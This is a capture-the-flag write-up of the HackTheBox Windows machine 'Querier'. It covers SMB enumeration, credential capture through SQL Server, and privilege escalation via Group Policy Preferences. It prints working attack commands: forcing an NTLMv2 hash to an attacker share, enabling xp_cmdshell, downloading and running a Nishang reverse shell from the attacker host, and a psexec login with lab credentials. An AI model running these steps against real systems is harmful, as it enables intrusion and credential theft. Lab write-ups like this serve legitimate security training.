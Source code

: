 :slug: querier-writeup/
:date: 2019-06-28
:category: attacks
:subtitle: How to solve HTB Querier
:tags: security, htb, pwn, web, windows
:image: cover.png
:alt: New York City Skyline
:description: Querier is a Windows HackTheBox machine with several insecure configurations. This article explains how to use these configurations to gain system access as a user without privileges, and how to escalate to administrator privileges using penetration testing tools.
:keywords: HTB, Security, Web, Writeup, Bounty, Windows
:author: Andrés Tirado
:writer: atirado
:name: Andrés Tirado
:about1: Mechatronic Engineer
:about2: Enjoy the Little Things

= Querier Writeup

In my opinion,
link:https://www.hackthebox.eu/home/machines/profile/175[Querier]
is a great box.
By following the steps below
we will learn a bit about +Windows+
(a widely used operating system) pentesting.
The challenge begins with a public +SMB+;
this is our first challenge level.
Next, we will work with +SQL Server+
and we will need to use a special +SQL+ query
to get the user hash.
Finally, we will take advantage of an insecure configuration
in +Group Policy Preferences+ in +Windows+
to escalate to administrator privileges.


== Scanning Phase

The first thing to do is check the connection
to the machine with a simple +ping+ command.
We need a stable connection
with the box to make sure that
we will not lose all of our progress.

.Ping
[source, bash]
----
$ ping 10.10.10.125
----

.IP Querier
image::ip.png[ip]

.Doing ping
image::ping.png[ping]

Next, we can use +nmap+ to find open ports in the machine.
A simple port scanning is enough for our purposes.

[source, bash]
----
$ nmap -Pn 10.10.10.125
----

.Port scanning
image::nmap.png[nmap]

We see 4 open ports (+135+, +139+, +445+ and +1433+)
and among these,
we found two interesting services,
+microsoft-ds (SMB)+ in port +445+ and
+ms-sql-s+ in port +1433+.
When we try to access via SMB,
it shows us a shared folder called `Report` with a `.xlsm` file,
the extension indicating a +Microsoft Excel Document+.

.Public share
image::share.png[share]

Then we open the specified file with +Microsoft Excel+ and
a warning message appears telling us that
the file contains a suspicious macro.

.Macro alert
image::alert.png[alert]

We can explore the macro code in +Microsoft Excel+
using the option +Visual Basic+ in the Developer Tab.
The macro has an insecure configuration
of a connection to +SQL Server+,
the credentials are in plain text and now we can use them.
It's a good example of something
that we should never do.

.Macro code
image::macro.png[macro]

== Getting User

Now we can connect to the other interesting service
that we found: +ms-sql-s+.
We use the module +mssqlclient.py+ of +Impacket+
to do queries to the server interactively
using the credentials found in the last step,
for example a query to know the version of +SQL Server+
like the first testing query.

[source, bash]
----
$ mssqlclient.py -windows-auth QUERIER/reporting:PcwTWTHRwryjc\$c6@10.10.10.125
----

.Mssql conection
image::mssql-conection.png[mssql-conection]

We will use this service to gain system access,
as a user without privileges.
We mount an +SMB+ server in our machine
to capture the authentication of any Windows user,
in this case, the user that executes the service +ms-sql-s+.
We tell it to enter our share
to capture its +NTLMv2+ hash with an +xp_dirtree+ query.
This stored procedure of +SQL Server+
will access our +SMB+ share
to display a list of every folder,
every subfolder, and every file.

[source, bash]
----
> EXEC master.sys.xp_dirtree '\\10.10.15.1\querier';
----

[source, bash]
----
$ smbserver.py -smb2support querier Documents/
----

.User hash
image::mssql-hash.png[mssql-hash]

Then we copy the hash to a plain text file and
use +John the Ripper+ with the dictionary +rockyou.txt+
to crack the captured hash.
We need to specify the correct hash format because
+John the Ripper+ occasionally recognizes your hashes as the wrong type.
This is inevitable because
some hashes look identical,
in this case the correct format for +NTLMv2+ is +netntlmv2+.

[source, bash]
----
$ john.exe --wordlist=rockyou.txt --format-netntlmv2 \\
     "\Users\dette\HackTheBox\Querier\hash_mssql-svc.txt"
----

.Runnnig John
image::john.png[john]

Now we can connect to +SQL Server+ as user +mssql-svc+.
We try to execute the command +whoami+, however,
it responds telling us that
component +xp_cmdshell+ is blocked.
Since we are the service administrator,
we can enable it using a few queries.

[source, bash]
----
$ python mssqlclient.py -windows-auth QUERIER/mssql-svc:corporate568@10.10.10.125
----

.xp_cmdshell disabled
image::user-mssql.png[user-mssql]

[source, bash]
----
> EXEC sp_configure 'show advanced options', 1;
> EXEC sp_configure reconfigure;
> EXEC sp_configure 'xp_cmdshell', 1;
> EXEC sp_configure reconfigure;
> EXEC master.dbo.xp_cmdshell 'whoami';
----

.xp_cmdshell enabled
image::mssql-commands.png[mssql-commands]

Because we can execute commands,
reading the user flag is now possible.

.User flag
image::flag-user.png[flag-user]

== Getting Root

This method of executing commands
may be an inconvenient way to escalate privileges,
so we will upload a shell to the server.
To do this we will use the script +Invoke-PowerShellTcp.ps1+
of +Nishang+ framework.
Before uploading the shell
we add our IP address and
some free port to make the connection.

[source, bash]
----
Invoke-PowerShellTcp -Reverse -IPAddress 10.10.15.1 -Port 30000
----

.Invoke-PowerShellTcp code
image::ip-shell.png[ip-shell]

Then it is necessary to start an +HTTP+ server in our machine.
We can do it with +Python3+.

[source, bash]
----
$ python -m http.server
----

.Http server
image::python-server.png[python-server]

To make the server download our file,
we can use +Powershell+ as follows.

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       Invoke-WebRequest http://10.10.15.1:8000/Invoke-PowerShellTcp.ps1 \\
       -OutFile c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

Now to get an interactive shell
we set our machine to listen +port 30000+ and
execute the script in the +HTB+ machine.

[source, bash]
----
$ nc -lvp 30000
----

[source, bash]
----
> EXEC master.dbo.xp_cmdshell 'powershell.exe \\
       c:\Users\mssql-svc\Music\Invoke-PowerShellTcp.ps1';
----

.Interactive shell
image::shell-nc.png[shell-nc]

At this point we use the module +PowerUp.ps1+
from the +PowerSploit+ collection to scan the system
to find a way to escalate privileges.
We can use the same method as in the last step.
We upload the file to the server with +Python3+.

To execute the script we need to import it first,
next we can run all checks
with the command +Invoke-AllChecks+.
It will output any identifiable vulnerabilities
along with specifications for any abuse functions.

[source, bash]
----
> Import-Module C:\Users\mssql-svc\Music\PowerUp.ps1
> Invoke-AllChecks
----

.Running PowerUp.ps1
image::powerup.png[powerup]

We can see the Administrator credentials
in plain text in the script output.
The script took advantage
of an insecure configuration
in +Group Policy Preferences+ of +Windows+;
it saves credentials with weak encryptions.
It’s time to prove these and
to obtain the root flag.

.Root credentials
image::root-credentials.png[root-credentials]

Finally, we can get an interactive shell
as Administrator with +psxec.py+ from +Impacket+.
With this, we can read the root flag.

[source, bash]
----
$ python psexec.py QUERIER/Administrator:MyUnclesAreMarioAndLuigi!!1!@10.10.10.125
----

.Running psexec.py
image::psexec.png[psexec]

Another way to get the root flag
could be to find the file
+C:\ProgramData\Microsoft\Group Policy\History\{31B2F340-016D-11D2-945F-00C04FB984F9}\Machine\Preferences\Groups\Groups.xml+
using a native tool like +findstr+ and
decrypt the password using
the +gpp-decrypt+ tool of +Kali Linux+.

.Encrypted password
image::crypt.png[crypt]

.Decrypted password
image::decrypt.png[decrypt]

In this challenge,
we saw some insecure configurations
such as saved credentials in plain text in code.
We also learned how to start an +SMB+ server
in our machine to capture hashes and
finally, we learned and used some important tools
for pentesting in +Windows+ like
+Impacket+, +Nishang+, and +PowerSploit+.
